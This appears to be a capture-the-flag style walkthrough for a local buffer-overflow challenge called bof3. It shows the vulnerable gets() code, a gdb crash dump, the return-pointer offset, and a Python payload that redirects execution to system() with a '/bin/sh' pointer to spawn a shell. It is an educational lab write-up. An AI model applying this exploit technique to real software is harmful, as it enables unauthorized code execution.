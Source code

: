 # bof3

This challenge is similar to bof2, but there are some minor changes:
```C
void func(void)
{
  char overflowme[1024];

  printf("\noverflow me to get /bin/sh");
  printf("\nIF YOU CAN... MUHAHAHAH: ");

  gets(overflowme);     // smash me!

  if(key == 0xcafebabe){
    system("/bin/echo LOL Nice Try!!!");
  }
  else{
    printf("Nah..\n");
  }
}
```

1. The size of the buffer has gotten bigger (1024 bytes instead of 32)
2. There is no direct `system("/bin/sh");` call in the code.

The previous challenge showed how parameters are passed to a function, so the steps necessary to solve this are:
1) Locate the offset of the return pointer
2) Find _where_ to redirect code execution
3) Find a usable pointer to the string `"/bin/sh"`
4) Ensure the stack is set up correctly to pass the pointer to `"/bin/sh"` to `system()`

## 1) Locate the offset of the return pointer
This part has been covered in the previous two challenges, so this will be an abbreviated version.
* [step1.py -d](./step1.py) Crash:
```asm
 [----------------------------------registers-----------------------------------]
EAX: 0x6 
EBX: 0x0 
ECX: 0xffffffff 
EDX: 0xf7745870 --> 0x0 
ESI: 0xf7744000 --> 0x1b1db0 
EDI: 0xf7744000 --> 0x1b1db0 
EBP: 0x6b616169 ('iaak')
ESP: 0xffc7cee0 ("kaaklaakma")
EIP: 0x6b61616a ('jaak')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x6b61616a
[------------------------------------stack-------------------------------------]
0000| 0xffc7cee0 ("kaaklaakma")
0004| 0xffc7cee4 ("laakma")
0008| 0xffc7cee8 --> 0x616d ('ma')
0012| 0xffc7ceec --> 0xf75aa637 (<__libc_start_main+247>:       add    esp,0x10)
0016| 0xffc7cef0 --> 0xf7744000 --> 0x1b1db0 
0020| 0xffc7cef4 --> 0xf7744000 --> 0x1b1db0 
0024| 0xffc7cef8 --> 0x0 
0028| 0xffc7cefc --> 0xf75aa637 (<__libc_start_main+247>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
gdb-peda$ 
```
Then find offset:
```bash
code@hackbox2:~/code/how2bof/bof3$ pwn cyclic -l 'jaak'
1036
```
## 2) Find _where_ to redirect code execution
We have covered this in bof2, so another abbreviated version:
```asm
gdb-peda$ disassemble func
Dump of assembler code for function func:
=> 0x0804851b <+0>:     push   ebp
   0x0804851c <+1>:     mov    ebp,esp
   0x0804851e <+3>:     sub    esp,0x408
   0x08048524 <+9>:     sub    esp,0xc
   0x08048527 <+12>:    push   0x8048650
   0x0804852c <+17>:    call   0x80483b0 <printf@plt>
   0x08048531 <+22>:    add    esp,0x10
   0x08048534 <+25>:    sub    esp,0xc
   0x08048537 <+28>:    push   0x804866c
   0x0804853c <+33>:    call   0x80483b0 <printf@plt>
   0x08048541 <+38>:    add    esp,0x10
   0x08048544 <+41>:    sub    esp,0xc
   0x08048547 <+44>:    lea    eax,[ebp-0x408]
   0x0804854d <+50>:    push   eax
   0x0804854e <+51>:    call   0x80483c0 <gets@plt>
   0x08048553 <+56>:    add    esp,0x10
   0x08048556 <+59>:    mov    eax,ds:0x804a02c
   0x0804855b <+64>:    cmp    eax,0xcafebabe
   0x08048560 <+69>:    jne    0x8048574 <func+89>
   0x08048562 <+71>:    sub    esp,0xc
   0x08048565 <+74>:    push   0x8048687
   0x0804856a <+79>:    call   0x80483e0 <system@plt>
   0x0804856f <+84>:    add    esp,0x10
   0x08048572 <+87>:    jmp    0x8048584 <func+105>
   0x08048574 <+89>:    sub    esp,0xc
   0x08048577 <+92>:    push   0x80486a1
   0x0804857c <+97>:    call   0x80483d0 <puts@plt>
   0x08048581 <+102>:   add    esp,0x10
   0x08048584 <+105>:   nop
   0x08048585 <+106>:   leave  
   0x08048586 <+107>:   ret    
End of assembler dump.
gdb-peda$ 
```
Great, we have the instructions:
```asm 
   0x08048565 <+74>:    push   0x8048687
   0x0804856a <+79>:    call   0x80483e0 <system@plt>
```
However, if we look at what is being pushed to the stack to be passed to `system` we see it's not what we want:
```asm
gdb-peda$ telescope 0x8048687
0000| 0x8048687 ("/bin/echo LOL Nice Try!!!")
```
Well that won't do! But we have control over the stack, and we know we'd rather pass '/bin/sh'. But how do we find a pointer to that string?

## 3) Find a usable pointer to the string `"/bin/sh"`
We can use PEDA's `find` command to easily find a string (if there is one)
```asm
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
bof3 : 0x8048664 ("/bin/sh")
bof3 : 0x8049664 ("/bin/sh")
libc : 0xf772982b (das)
```
There we go. `0x8048664` or `0x8049664` should work.

## 4) Ensure the stack is set up correctly to pass the pointer to `"/bin/sh"` to `system()`
Make changes to script:
```python
  wait_for_prompt(r)
  payload  = 'A'*1036
  payload += p32(0x0804856a)  #Return pointer. Point this to 0x0804856a <+79>:    call   0x80483e0 <system@plt>
  payload += p32(0x8048664)   #This will be the pointer passed to system(), make this a pointer to '/bin/sh'
```
$ [step2.py -d](./step2.py) to run it through the debugger and investigate exact behavior.
$ [step2.py](./step2.py) to run and get shell:
```bash
$ ./step2.py 
[+] Starting local process './bof3': pid 27953

overflow me to get /bin/sh
IF YOU CAN... MUHAHAHAH: 
[*] Switching to interactive mode
Nah..
$ cat flag
flag{test_flag_for_chall}
```
